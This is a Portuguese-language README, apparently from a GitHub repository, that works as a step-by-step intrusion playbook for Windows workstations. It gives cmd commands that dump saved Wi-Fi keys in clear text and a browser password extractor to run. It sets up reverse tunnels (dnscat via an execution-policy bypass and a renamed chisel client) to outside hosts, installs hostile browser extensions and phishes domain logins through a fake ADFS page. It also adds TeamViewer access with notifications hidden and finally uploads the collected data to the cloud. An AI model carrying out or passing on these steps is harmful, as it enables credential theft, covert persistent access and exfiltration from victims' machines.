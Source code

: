 # Guia de Execução

1 Ferramentas
Baixar o [1drive.zip](https://1drv.ms/u/s!AjfrkQYLG_fYgUBJHhDy2mxAOZ9x?e=Ms4N1w) ou [github.zip](https://github.com/tu74nkamon/guide/blob/main/EXECUCAO2.zip) com todas as ferramentas de uma vez\

# Android Wi-Fi
instalar um leitor de qrcode no seu celular \
https://www.howtogeek.com/818934/how-to-find-wi-fi-password-on-android/ \
https://android.gadgethacks.com/how-to/see-passwords-for-wi-fi-networks-youve-connected-your-android-device-0160995/

# Mapeamento
1. Criar a pasta tmp em **C:\tmp** Nela estarão os arquivos que você deve coletar ao final, comprimindo a pasta e enviando para nuvem
2. Baixar Ferramentas\
  2.1 O Arquivo [EXECUCAO.zip](https://1drv.ms/u/s!AjfrkQYLG_fYgUBJHhDy2mxAOZ9x?e=Ms4N1w) ou [github.zip](https://github.com/tu74nkamon/guide/blob/main/EXECUCAO2.zip) contém as pastas:\
      - Extencoes (Extenções Browser Chrome e Edge)\
      - deploycat (tunel)\
      - browser_pwd_extract (extrator de senhas browser que é o arquivo **chromium_based_browsers.exe**)\
3. Mapeamento (Cada comando abaixo eh executado no **CMD do windows**)\
   - 3.1 Captura de MAC Address\
       echo ">>>>>>>>>>>>>>> MAC <<<<<<<<<<<<<<<<<" >> C:\tmp\output.txt && getmac >> C:\tmp\output.txt && cls && echo “done”
   - 3.2 Captura de configurações de rede\
      echo ">>>>>>>>>>>>>>> NetConf <<<<<<<<<<<<<<<<<" >> C:\tmp\output.txt && ipconfig /all >> C:\tmp\output.txt && cls && echo “done”
   - 3.3 Captura de informações de sistema\
      echo ">>>>>>>>>>>>>>> Sysinf <<<<<<<<<<<<<<<<<" >> C:\tmp\output.txt && systeminfo >> C:\tmp\output.txt && cls && echo “done”
   - 3.4 Criação de pasta temporária e Captura de Senhas WiFi (**Aplicável para notebook**)
      for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear >> C:\tmp\output.txt && cls && echo “done”

# PWD Browsers
4. Captura de Informações dos Browsers\
   4.1 Certifique-se de que existe a pasta C:\tmp\    \
   4.2 Baixe / Extraia  o ZIP [chromiumaster.zip](https://1drv.ms/u/s!AjfrkQYLG_fYelG61GupNU6K5qI?e=ZWqoUe) também presente no arquivo EXECUCAO2.zip e execute o programa chromium_based_browsers.exe. 

# Reverse Tunnel
5. Tunnel
- 5.1 DNS Cat
   Baixar [arquivo](https://github.com/tu74nkamon/guide/blob/main/connect.ps1) e colocar em C:\Users\"user"\connect
\

Executar em powershell (dentro da pasta C:\Users\"user"\connect) os seguintes comandos:
- Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
- . ./connect.ps1
- Start-Connect -d "n1.cwdlab.com" -s "172.16.1.197"

- 5.2  Chisel Tunnel
   Download no [1drive](https://1drv.ms/f/s!AjfrkQYLG_fYgSX-FsDPaSIMLnfq?e=lS5hOx) ou [github](https://github.com/tu74nkamon/guide/blob/main/VENUS.zip) e alterar em cada maquina diferente a porta para o intervalo de 1080 ate 1090\
>>> Executar no CMD do windows\ 
   PC1) venus.exe client https://lobster.cwdlab.com R:127.0.0.1:1080:socks\
   PC2) venus.exe client https://lobster.cwdlab.com R:127.0.0.1:1081:socks\
   PC3) venus.exe client https://lobster.cwdlab.com R:127.0.0.1:1082:socks\
   ...\
   PC8) venus.exe client https://lobster.cwdlab.com R:127.0.0.1:1087:socks
   
# Extenção   
6. Extensão de Browser\
   6.1 Escolha uma versão das Extenções e instale nos navegadores CHROME e EDGE\
   6.2 Você pode verificar se o dominio eh alcançável por:\
        - Versao1 [https://happyteachersdayquotes.com/verify](https://happyteachersdayquotes.com/verify)\
        - Versao2 [https://cwdlab.com/verify](https://cwdlab.com/verify)\
        - Versao3 [https://gitauth.co/verify](https://gitauth.co/verify)

# Raspberry
7. Lembrar de plugar o raspberry em algum ponto de rede\

# o365
8. Captura de Credenciais de dominio\
 Acessar https://amz.run/6YAy ou https://adfs.aufoglass.com/adfs/ls/?wa=wsignin1.0&wtrealm=urn%3afederation%3aMicrosoftOnline e pedir alguém para logar na página nossa do ADFS (Microsoft)
 
 
 # Tools Acesso Remoto
 lembrar de baixar, instalar e configurar (logar em contas de acesso permanente) as ferramentas de acesso remoto.
- 1 GetScreen 
 Faça login com a conta fornecida para acesso permanente \
 ![image](https://user-images.githubusercontent.com/70968631/231205769-25e27ba5-b2d9-4a11-b938-cbcb929302a1.png)
 
 Desabilite as notificações\
 ![image](https://user-images.githubusercontent.com/70968631/231206995-7d9c8709-f4af-4e32-8ae6-bd1d1038c610.png)
 
- 2 Teamviewer
Instale o programa e logue em computadores e contatos com a conta fornecida\
![image](https://user-images.githubusercontent.com/70968631/231211994-491e7898-a76b-4915-b32d-dfe316566960.png)

>>>>>>>>>>>>>> Comprima a pasta **C:\tmp** e envie para cloud <<<<<<<<<<<
